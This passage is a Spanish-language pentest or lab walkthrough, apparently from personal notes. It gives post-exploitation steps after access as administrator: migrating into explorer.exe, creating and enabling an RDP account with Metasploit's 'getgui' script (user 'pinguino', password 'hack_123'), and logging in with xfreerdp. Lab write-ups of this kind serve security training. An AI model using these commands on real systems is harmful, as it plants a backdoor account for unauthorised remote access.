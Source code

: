 Una vez dentro, tenemos que ser el usuario administrador y mirarnos al proceso de explorer.exe:
![[Pasted image 20240615201138.png]]

![[Pasted image 20240615201143.png]]
Una vez migrado, tenemos que crear un usuario para el protocolo RDP y activarlo:
```bash
run getgui -e -u pinguino -p hack_123
```

![[Pasted image 20240615201150.png]]

Una vez hecho esto, ya podremos entrar dentro del protocolo RDP usando estas credenciales con la herramienta xfreerdp:
```bash
xfreerdp /u:pinguino /p:hack_123 /v:10.2.27.219
```

![[Pasted image 20240615201157.png]]